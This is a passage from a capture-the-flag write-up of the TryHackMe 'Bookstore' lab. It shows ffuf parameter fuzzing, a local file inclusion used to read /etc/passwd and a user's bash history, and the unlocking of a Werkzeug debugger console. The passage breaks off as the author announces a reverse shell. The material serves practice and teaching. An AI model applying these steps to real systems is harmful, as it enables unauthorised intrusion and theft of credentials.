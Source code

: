- Found the old API version: `v1`

**Also, in `http://bookstore.thm/assets/js/api.js`, it said: `the api had a paramter which lead to local file inclusion vulnerability`.**

**Let's fuzz the vulnerable GET parameter via `ffuf`!**
```
┌──(root🌸siunam)-[~/ctf/thm/ctf/Bookstore]
└─# ffuf -w /usr/share/seclists/Discovery/Web-Content/burp-parameter-names.txt -u http://bookstore.thm:5000/api/v1/resources/books?FUZZ=123 -t 100
[...]
author                  [Status: 200, Size: 3, Words: 1, Lines: 2, Duration: 215ms]
id                      [Status: 200, Size: 3, Words: 1, Lines: 2, Duration: 205ms]
published               [Status: 200, Size: 3, Words: 1, Lines: 2, Duration: 206ms]
show                    [Status: 500, Size: 23076, Words: 3277, Lines: 357, Duration: 214ms]
```

Hmm... **The `show` GET parameter looks sussy.**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/Bookstore/images/a9.png)

**When we reach to this parameter, it shows us `NameError: name 'filename' is not defined`. I'm guessing it's trying to fetch a file!**

**Let's try `/etc/passwd` for testing:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/Bookstore/images/a10.png)

Oh!! We found a LFI vulnerability!

**Let's recall back to a HTML comment in `/login.html`:** 
```html
<!--Still Working on this page will add the backend support soon, also the debugger pin is inside sid's bash history file -->
```

**And we indeed found a user called `sid` in `/etc/passwd`!**
```
sid:x:1000:1000:Sid,,,:/home/sid:/bin/bash
```

**Let's find the debugger pin in his bash history file!**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/Bookstore/images/a11.png)

**Found it!! Let's go to `http://bookstore.thm:5000/console` to unlock the Werkzeug Debugger console!**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/Bookstore/images/a12.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/Bookstore/images/a13.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/Bookstore/images/a14.png)

**We'in! Let's get a python reverse shell!**

**To do so, I'll:**
